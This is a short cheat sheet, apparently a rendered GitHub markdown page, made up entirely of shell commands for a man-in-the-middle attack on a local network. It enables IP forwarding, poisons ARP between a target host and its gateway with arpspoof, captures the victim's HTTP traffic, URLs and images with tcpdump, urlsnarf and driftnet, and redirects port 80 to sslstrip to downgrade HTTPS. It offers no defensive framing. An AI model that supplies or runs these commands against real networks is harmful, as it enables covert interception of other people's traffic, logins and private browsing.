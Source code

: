 ### Forward IPV4 traffic
```
echo 1 > /proc/sys/net/ipv4/ip_forward
 
# send fake ARP packages
arpspoof -i <interface> -t <rhost> -r <gatewayIp>
```

### Dump TCP traffic
```
tcpdump -i <interface> -A host <rhost> and port 80 > <rhost.txt>
```

### Extract urls from TCP traffic
```
urlsnarf -i <interface>
```

### Capture images
```
driftnet -i <interface>
```

#### downgrade HTTPS to HTTP - redirect requests from port 80 to 8080
```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```

### -l = listen to port 8080
```
sslstrip -l 8080
```

